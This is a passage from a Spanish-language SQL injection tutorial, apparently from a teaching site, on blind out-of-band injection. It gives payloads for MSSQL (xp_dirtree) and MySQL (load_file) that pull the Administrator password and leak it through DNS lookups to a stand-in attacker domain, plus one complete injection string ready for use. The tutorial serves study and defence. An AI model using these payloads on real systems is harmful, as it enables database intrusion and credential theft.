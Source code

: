 ```yaml
---
layout: default
title: 4.4 Fuera de banda
permalink: /injection_types/blind/oob_type
nav_order: 4
parent: 4. Inyecciones ciegas
has_children: true
---
```


# Inyecciones ciegas con interacción fuera de banda

Una SQLi ciega **fuera de banda** (*out-of-band*, *OOB*) implica enviar la información consultada a través de **un canal diferente** al utilizado para la interacción con la aplicación. Por ejemplo, el atacante puede utilizar comandos SQL que envíen información a través de una **conexión de red directa**, una **solicitud DNS** o una **solicitud HTTP**. Una vez que el atacante ha enviado la inyección, debe esperar a recibir la respuesta de la base de datos **en el canal alternativo** elegido.

En otras palabras, hay que obligar al DBMS no solo a generar una respuesta, sino también a abrir un canal alternativo de comunicación.

![Out of band diagram](/assets/oob.png)

Para ejemplificar un caso de ataque se analiza un escenario con *Microsoft SQL Server* y el canal alternativo será por medio del **protocolo DNS**. Usualmente este método es efectivo ya que muchas redes permiten salida libre de consultas DNS, debido a **su importancia en el funcionamiento de los sistemas** de producción. El método para construir la consulta se apoya en la [SQL injection cheat sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet).

Asumiendo un punto de inyección como los de las secciones anteriores donde se puede escribir una consulta arbitraria, se considera el siguiente fragmento de *payload*:

```sql
exec master..xp_dirtree '//dominio.atacante.net/x'
```

Este SQL ejecuta un procedimiento almacenado de MSSQL llamado `xp_dirtree`, cuyo parámetro es el texto `'//dominio.atacante.net/x'`. `xp_dirtree` sirve para listar carpetas del sistema operativo y el parámetro **debería** ser una ruta como `C:/`. Sin embargo, abusando de la implementación de `xp_dirtree` (**si la versión y configuración del DBMS lo permiten**) esto **resultaría en una petición DNS para que el DBMS pueda obtener la IP** de `dominio.atacante.net`. Si se tiene control del servidor DNS que responde por ese dominio, se pueden obtener las consultas DNS hechas.

Herramientas como [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) cumplen este propósito, proveyendo un dominio público utilizable en este tipo de ataques y al que se pueden consultar los pedidos recibidos (HTTP y DNS). Este se encuentra disponible junto con la licencia de BurpSuite Professional, una alternativa gratuita puede ser [Interactsh](https://github.com/projectdiscovery/interactsh).

Si se recibe la consulta DNS, el siguiente paso es **agregar el resultado de una consulta al propio dominio**. Por ejemplo con la siguiente secuencia de sentencias SQL:

```sql
declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='Administrator');
exec('master..xp_dirtree "//'+@p+'.dominio.atacante.net/x"')
```

Esto puede resultar en un pedido DNS, iniciado por el DBMS, recibido por el servidor del atacante, consultando por la IP de `47b7bfb65fa83ac9a71dcb0f6296bb6e.dominio.atacante.net`. En este ejemplo, `47b7bfb65fa83ac9a71dcb0f6296bb6e` es un hash MD5 del texto `Passw0rd!`.

El *payload* completo que podría aplicar a este ejemplo es:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.dominio.atacante.net/x"')--
```

Un ejemplo de fragmento de SQL análogo para MySQL sería:

```sql
SELECT load_file(CONCAT(
    '\\\\',
    (SELECT password FROM users WHERE username='Administrator'),
    '.',
    'dominio.atacante.net\\test.txt'))
```

La función `load_file()` carga archivos del sistema de archivos del DBMS, al intentar resolver la ruta de un archivo remoto `test.txt`, pide por DNS la IP del dominio indicado.